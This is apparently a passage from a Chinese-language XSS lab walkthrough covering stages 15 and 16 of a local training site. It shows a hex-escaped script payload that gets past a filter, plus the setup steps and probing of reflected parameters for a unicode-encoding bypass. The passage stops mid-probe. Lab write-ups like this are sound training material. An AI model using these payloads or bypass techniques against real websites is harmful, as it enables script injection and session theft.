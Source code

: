 提交 payload

```
<script>document.write("\x3cscript\x3ealert(document.domain);\x3c/script\x3e");</script><script>alert(document.domain);</script>
```

>成功注入

### 1.3.2 Stage #16 使用 unicode 编码绕过关键词过滤-进行 XSS 攻击

> http://192.168.1.76/stage16th.php
>
> 浏览器访问

切换到站点根目录

```
[root@CentOS-76 ~]# cd /var/www/html/
```

上传 style.css 和 stage16th.php 到 centos，搭建页面

启动 apache2

    [root@CentOS-76 html]# systemctl start httpd.service

浏览器访问

> http://192.168.1.76/stage16th.php

**查找可控参数**

打开拦截，提交 hello

```
p1=hello&submit=reflect
```

> 可以看到只有一个可控参数

**查找回显位置**

关闭拦截，查看回显源码

```
<script>document.write("hello");</script>
hello
```

> 两处回显

**判断是否能够执行 js 代码**

提交符号

```
">
```

查看回显源码

```
<script>document.write("&quot;&gt;");</script>"&gt;
```
